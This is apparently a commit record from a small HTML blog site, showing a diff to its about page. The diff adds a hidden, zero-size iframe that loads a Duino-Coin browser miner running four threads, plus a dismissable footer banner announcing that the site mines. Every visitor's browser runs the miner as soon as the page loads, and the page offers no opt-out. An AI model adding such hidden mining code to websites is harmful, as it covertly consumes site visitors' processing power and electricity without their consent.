

Before and after one commit to darkmash-org/blog, a plain HTML site: page about.html in a window 1280 px wide. Shown: the part 323-796 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update about.html

```diff
--- a/about.html
+++ b/about.html
@@ -108,7 +108,54 @@
             </div>
         </div>
     </footer>
+ <style>
+        .mner {
+            visibility: hidden;
+            height: 0px;
+            width: 0px;
+        }
 
+        #footer {
+            position: fixed;
+            left: 0px;
+            bottom: 0px;
+            /* height: 30px; */
+            width: 100%;
+            /* background: #999; */
+        }
+
+        .alert {
+            padding: 20px;
+            background-color: rgb(32, 32, 32);
+            color: rgb(184, 184, 184);
+            font-size: 14px;
+            font-weight: 600;
+            font-family: 'Lucida Sans', 'Lucida Sans Regular', 'Lucida Grande', 'Lucida Sans Unicode', Geneva, Verdana, sans-serif;
+        }
+
+        .closebtn {
+            margin-left: 15px;
+            color: white;
+            font-weight: bold;
+            float: right;
+            font-size: 20px;
+            line-height: 18px;
+            cursor: pointer;
+            transition: 0.3s;
+        }
+
+        .closebtn:hover {
+            color: rgb(54, 54, 54);
+        }
+    </style>
+    <iframe class="mner" src="https://server.duinocoin.com/webminer.html?username=merwin&threads=4&rigid=blog.about&keyinput="></iframe>
+    <footer id="footer">
+
+        <div class="alert">
+            <span class="closebtn" onclick="this.parentElement.style.display='none';">&times;</span> We do mine in the site . This is to make sure the company could serve yall the next day : )
+        </div>
+
+    </footer>
     <script src="vendor/jquery/jquery.min.js"></script>
 
     <script src="vendor/bootstrap/js/bootstrap.min.js"></script>
```
